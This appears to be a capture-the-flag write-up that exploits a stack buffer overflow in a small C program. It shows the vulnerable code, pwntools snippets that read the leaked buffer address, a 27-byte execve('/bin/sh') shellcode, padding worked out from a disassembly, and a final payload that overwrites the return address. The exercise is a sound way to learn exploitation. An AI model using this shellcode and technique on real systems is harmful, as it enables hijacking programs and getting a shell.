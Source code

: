 # Shellcode

From the title, we know that this is testing on the method of using Shellcode.

  ```C
  #include<stdio.h>

  int main(){
      setvbuf(stdout,0,2,0);

      char buf[100];
      printf( "Your input buffer address is %p\n" , buf );

      read( 0 , buf , 0x80 );

      return 0;
  }

  ```
  
As we can see from `shellcode.c`, we are able know the input buffer address and the overflow point of `buf[100]` , which is `read( 0 , buf , 0x80 )`
  
From the code, we have the idea: 
  
  1. Obtain the input buffer address
  2. Read in our shellcode
  3. Overwrite return address to buffer address to execute our shellcode
  
So, first step, to obtain input buffer address:

  ```python
  l = p.recvline()
  addr = int(l.decode('utf-8').split("0x")[1].rstrip(), 16)
   ```
Next, generate a shellcode(27 bytes) for `excve("/bin/sh\0,null,null")`.  (I got mine from [shell-storm](http://shell-storm.org/shellcode/)):

  ```python
  sh = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
  ```
  
And calculate our padding:

    400649:	48 8d 45 90          	lea    -0x70(%rbp),%rax
    40064d:	ba 80 00 00 00       	mov    $0x80,%edx
    400652:	48 89 c6             	mov    %rax,%rsi
    400655:	bf 00 00 00 00       	mov    $0x0,%edi
    40065a:	b8 00 00 00 00       	mov    $0x0,%eax
    40065f:	e8 7c fe ff ff       	callq  4004e0 <read@plt>
    
We can see we read to `rbp - 0x70` so our total padding will be 0x78 bytes. Thus, our padding will be 0x78 - 0x1b (27) = 0x5d
  
Third, which will be our final playload, with a padding of:

  ```python
  p.sendline( b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05" + b"\x90"*0x5d + p64(addr))
  ```
  
